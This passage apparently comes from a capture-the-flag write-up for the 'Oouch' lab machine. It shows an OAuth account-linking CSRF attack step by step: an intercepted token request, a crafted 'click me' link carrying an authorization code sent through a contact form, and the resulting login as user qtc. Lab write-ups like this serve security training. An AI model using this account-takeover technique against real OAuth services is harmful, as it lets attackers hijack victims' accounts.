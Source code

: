 Now I'll start the account linking process again, but this time, I will
have Burp Proxy intercepting each request. I'll forward the first three
requests, stopping when it's trying to load
`consumer.oouch.htb:5000/oauth/connect/token`:



    GET /oauth/connect/token?code=76tcpZBboMvWODlVU0LNkRDMVCQB7m HTTP/1.1
    Host: consumer.oouch.htb:5000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/connect/token&scope=read
    Connection: close
    Cookie: session=.eJy1kM9OwzAMxl8ly3mg_G2aPQWCAwc0TY5jrxVdi5pUQpr27kSICwdOwMmy7N_n7_NVnniCMlCRh5erFLUVeaFS4ExyLx8mgkJiWs5inEVdBCC2oajDWMRb27mXx9v-77hHOo-lrlDHZRZP2yfE27QTzzThciGh3jPvfsHe4TKX7ULrDyL_avzb8eO-vX6lMshDXTdq3ZjlQZpoTWfARw_ck4smhaRZaRMwg0NryaPPoECDcsnnjEphz7lTDEZhJqaEnQMMGjoOTkPoooEUvY7EuSn0aD0k5a3jztiI1oSkjGKTk_WqZcGy8qkurzQ3P8FCAq1DMl3wzkGOifvggGyATNBDbC5cto3bCq1fIeTtA92OwOo.XmawFg.5VWJ9iBk8looCFxsuQTc5oCDMJ8
    Upgrade-Insecure-Requests: 1



I'll craft that into a link, and drop the request so it's not sent to
the server:



    <a href="http://consumer.oouch.htb:5000/oauth/connect/token?code=QY4G64bZGMj05zy5Krq49HmMDHIP8w">click me</a>



I'll submit the link to the contact form. After a minute or two, I'll
see 0xdf-auth is no longer connected in the Profile page for
0xdf-consumer:

![](/img/image-20200309173807145.png)

I'll log out, and then go to `/oauth/login`, and click yes when prompted
to login using OAuth. But my account on the authorization server now is
linked to whoever clicked the link. Visiting the Profile page, I see I'm
logged in as qtc:
